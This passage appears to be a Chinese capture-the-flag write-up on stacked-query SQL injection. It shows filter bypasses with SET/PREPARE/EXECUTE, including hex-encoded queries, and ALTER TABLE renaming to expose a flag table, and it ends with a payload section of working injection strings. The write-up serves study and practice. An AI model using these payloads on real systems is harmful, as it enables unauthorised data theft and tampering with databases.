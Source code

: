 继续联合查询，查询出过滤的关键字

![20210715311](img/20210715/20210715311.png)

可以发现`set`，`prepare`，`rename`，`alter`都没有被过滤，有两种方案

#### 预处理语句

> [MySQL的SQL预处理(Prepared)](https://www.cnblogs.com/geaozhang/p/9891338.html)

原理还是比较好理解的，主要是本体直接用`set`和`prepare`不行，因为有过滤

![20210715312](img/20210715/20210715312.png)

#### 对调名字

由上面的探测我们可以猜测出这里会查询出words表的data列的结果，也就是`select * from words where id = '';`

如果我们能将语句换成``select * from `1919810931114514` where flag = '';``那么就能得到flag了

> - `alter table user rename to users // 将表名从user改成users`
> - `alter table users change username name varchar(30) //将列名从username改为name`

我们可以先将`words`表改变为一个其他名字，然后将`1919810931114514`表命名为`words`表，在将`1919810931114514`表中原本的`flag`列改名为`id`列

### payload

```
?inject=1';show tables;
// return table name 1919810931114514
```

```
?inject=1';Set @sql=concat("s","elect user()");PREPARE sqla from @sql;EXECUTE sqla; // 拼接
?inject=1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare bme from @a;execute bme; //转化为16进制
// return flag
```

```
?inject=1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);
?inject=1' or '1'='1
//return flag
```